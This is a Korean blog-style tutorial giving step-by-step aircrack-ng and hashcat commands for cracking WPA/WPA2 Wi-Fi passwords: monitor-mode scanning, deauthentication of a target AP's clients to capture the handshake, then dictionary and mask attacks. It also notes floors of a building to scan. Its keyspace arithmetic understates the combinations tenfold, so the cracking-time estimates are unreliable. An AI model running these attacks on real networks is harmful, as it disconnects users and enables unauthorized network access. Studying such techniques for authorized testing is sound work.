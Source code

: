 ```yaml
---
layout: post
title: Aircrack-ng
subtitle: 무선AP 해킹
author: 마준영
categories: etc
tags:
  - Aircrack-ng
---
```

# Aircrack
```shell
iwconfig #랜카드 이름 확인
airmon-ng start wlan0 #monitor모드 실행, wlan0은 랜카드 이름
airodump-ng wlan0 #스캔 실행
iw list | grep -A 10 Frequencies #랜카드가 주파수 대역이 되는지 확인 Frequencies에서 확인가능
airodump-ng wlan0 --channel 36 #특정 5GHz 채널만 스캔
airodump-ng wlan0 --band a #`--band a` : 5GHz 대역
airodump-ng wlan0 --band abg #`--band abg` : 2.4GHz + 5GHz 전체
airodump-ng wlan0 --band bg #`--band bg` : 2.4GHz전체
airodump-ng wlan0 --band a -w [파일명] #파일로 저장
airodump-ng -c 11 --bssid [공유기 맥주소] -w [저장될 파일명] wlan0 #타겟을 정한 후 채널을 고정하여 스캔하며 대기
aireplay-ng --deauth 10 -a [공유기 맥주소] -c [클라이언트 맥주소] wlan0 #클라이언트의 연결을 강제 종료, 재연결되면 handshake 패킷을 딸 수 있다. deauth는  try횟수
aircrack-ng [캡처파일].cap -w [워드리스트] #사전공격
```

사용예시
![](/assets/images/posts/2025-03-26-aircrack/bea8c9475a9856ca2c6d5ff48d3082dc_MD5.jpeg)
## 🛰️ 상단: AP (Access Point) 정보 테이블

| 항목명            | 의미                                           |
| -------------- | -------------------------------------------- |
| **BSSID**      | AP의 MAC 주소 (무선 공유기의 고유 식별자)                  |
| **PWR**        | 수신 신호 세기 (Power) - 숫자가 작을수록(0에 가까울수록) 신호가 강함 |
| **Beacons**    | 일정 간격으로 AP가 송신하는 비콘 패킷의 수                    |
| **#Data, #/s** | 데이터 패킷 수 및 초당 전송 속도                          |
| **CH**         | 채널 번호 (해당 AP가 사용하는 Wi-Fi 채널)                 |
| **MB**         | 최대 전송 속도 (Mbps)                              |
| **ENC**        | 암호화 방식 (Encryption: WPA2, WPA3 등)            |
| **CIPHER**     | 암호화에 사용되는 알고리즘 (예: CCMP, TKIP)               |
| **AUTH**       | 인증 방식 (예: PSK = Pre-shared Key, SAE 등)       |
| **ESSID**      | 네트워크 이름 (Wi-Fi SSID)                         |

## 📱 하단: 클라이언트(기기) 정보 테이블

|항목명|의미|
|---|---|
|**BSSID**|연결된 AP의 MAC 주소 (또는 Probe 중인 경우 NULL)|
|**STATION**|클라이언트(기기)의 MAC 주소|
|**PWR**|수신 신호 세기 (기기로부터 수신된 신호의 강도)|
|**Rate**|송수신 속도 (예: 6e-0은 6 Mbps)|
|**Lost**|손실된 패킷 수|
|**Frames**|수신된 프레임 수|
|**Notes**|기타 정보|
|**Probes**|클라이언트가 탐색 중인 SSID (연결하고자 하는 Wi-Fi 이름)|

PSK : Presharedkey, 인데 wifi가 미리 공유된 key값을 이용해서 크랙이 일반적임

SAE,MGT : 찾아보기

WEP, WAP, WAP2, WAP3
OPN

스캔할 층 4,6,7,19,25

Handshake 성공시 
![](/assets/images/posts/2025-03-26-aircrack/a04bfe866a566f081c5ff93c3e601a75_MD5.jpeg)

Crack 성공시
![](/assets/images/posts/2025-03-26-aircrack/a7623d10a8117b57a88d3995f81f0be8_MD5.jpeg)

# hashcat으로 크랙
딕셔너리 기반은 현실적이지 않은 것 같다.
hashcat으로 해보자.
```shell
aircrack-ng [파일이름].cap -J [출력파일명] #hasndshake가 있는 cap파일을 hashcat용으로 변환
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #안된다
```
- `-m 2500` → WPA/WPA2 (hccapx 포맷)
    
- `-a 0` → 사전(dictionary) 공격
    
- `handshake.hccapx` → 대상 해시 파일
    
- `/usr/share/wordlists/rockyou.txt` → 워드리스트 경로

뭔가 .cap에서 hashcat용으로 변환할때 문제가 있었던 것 같다.
전용 툴을 이용해서 변환해보자.
```shell
hcxpcapngtool -o [만드려는 파일명].hccapx [cap파일].pcapng #특이하게 원본 파일명이 뒤에옴
hcxpcapngtool -o home-01.22000 home-01.cap #확장자는 hccapx든 22000이든 상관 없는듯
hashcat -m 2500 -a 0 handshake.hccapx /usr/share/wordlists/rockyou.txt #만든 파일로 워드리스트 크랙하기, 2500은 구버전이라 안되는거같다. 22000으로 하는게 좋을듯
hashcat -m 22000 -a 3 home-01.22000 ?u?u?u?u?d?d?d?d #마스크공격 예시
```

| 옵션         | 의미                                          |
| ---------- | ------------------------------------------- |
| `-m 0`     | MD5                                         |
| `-m 100`   | SHA1                                        |
| `-m 22000` | **WPA/WPA2 (EAPOL + PMKID)** 👉 우리가 지금 쓰는 거 |
| `-m 2500`  | WPA/WPA2 (구버전 hccapx, 현재는 deprecated)       |
| `-m 3000`  | LM (Windows old password hash)              |
| `-m 1000`  | NTLM (Windows 로그인 해시)                       |

| 옵션     | 공격 방식                     | 설명                   |
| ------ | ------------------------- | -------------------- |
| `-a 0` | **Wordlist (Dictionary)** | 워드리스트에 있는 단어들로 대입 공격 |
| `-a 1` | Combination               | 두 워드리스트를 조합해서 시도     |
| `-a 3` | **Brute-force (마스크 공격)**  | 직접 문자 조합을 정의해서 전수조사  |
| `-a 6` | Hybrid Wordlist + Mask    | 단어 + 마스크 조합          |
| `-a 7` | Hybrid Mask + Wordlist    | 마스크 + 단어 조합          |

Hashcat은 GPU
![](/assets/images/posts/2025-03-26-aircrack/b2a7f50f00c6af8e529d2ec1cd1a9018_MD5.jpeg)

## 이 GPU는 어떤 성능이야?

|항목|내용|
|---|---|
|GPU 종류|**내장 그래픽** (iGPU)|
|성능 수준|엔트리급 (게이밍/병렬처리 성능 낮음)|
|OpenCL 지원|**있긴 하지만 매우 제한적**|
|해시 처리 성능|약 **2~10k H/s (초당 수천 해시)** 수준|

---

## 🎯 해시캐팅 속도 예시

`hashcat -m 22000 -a 3 ?u?u?u?u?d?d?d?d`  
(앞 4자리 대문자 + 뒤 4자리 숫자 = 약 4.56억 조합)

### ⏱ 대략 계산해보면:

예를 들어 **초당 5000 해시 처리**된다고 가정하면:
```
456,000,000 / 5,000 = 91,200초 ≈ 25시간
```

만약 속도가 더 낮아서 **2000 H/s**라면:
```
456,000,000 / 2,000 = 228,000초 ≈ 63시간
```

